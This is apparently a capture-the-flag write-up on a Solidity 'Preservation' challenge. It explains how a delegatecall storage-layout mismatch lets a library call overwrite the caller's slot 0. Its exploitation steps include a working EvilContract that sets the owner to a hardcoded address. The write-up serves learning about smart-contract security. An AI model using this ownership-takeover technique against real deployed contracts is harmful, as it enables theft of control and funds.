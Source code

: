 --------
**Analysis**

I explained well the `delegateCall` function before and how it runs in the caller context but I left the context a little blurry so let's define it.
The context here is the storage variables or let me call them `state variables` they are defined in the contract address and the called contract will handle them *blindly* which means he will assume that

*Storage layout of the caller*  == *Storage layout of the callee*

Let's look to our contract now.

![Perservation contract](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1659138010/0cded2638e39c98dee9e35690675e5a299c3628f81c9bdb1375a708b5e209098_ecu1g4.png)  

The interesting bits are : 

```js
  //inside the library contract
  uint storedTime;  

   function setTime(uint _time) public {
    storedTime = _time;
  }
```

```js
 // inside the vulnerable contract
 address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
```

I guess you got an idea what will happens with the delegateCall ? `storedTime` is actually our `timeZone1Library` variable they are both at `slot[0]` of the storage so it will be set instead. 
and the `setSecondTime` does the same thing as the `setFirstTime` in this case.

-----
**Exploitation**

1. Create an evil contract that implements `setTime(uint)` and has the same storage layout as the vulnerable contract ( by declaring the same variables in the same order 😄)
2. call the `set_X_Time` of the vulnerable contract by passing uint(evilcontractAddress) as paramater
3. call the method again now our evilContract function will be triggered to set owner = ourAccount;

Let's craft the *EvilContract*

```js
contract EvilContract {

  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  
  // These variable are useless because we won't to ensure that the owner is in slot[2] 
  // we don't really care about the slots that comes after
  uint storedTime;
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

   function setTime(uint _time) public {
    owner = 0x84e7a3679A82C2766Ff8382862ab883FF9460307;
   }

   function getParam() view public returns (uint){
        return uint(address(this));
   }
}
```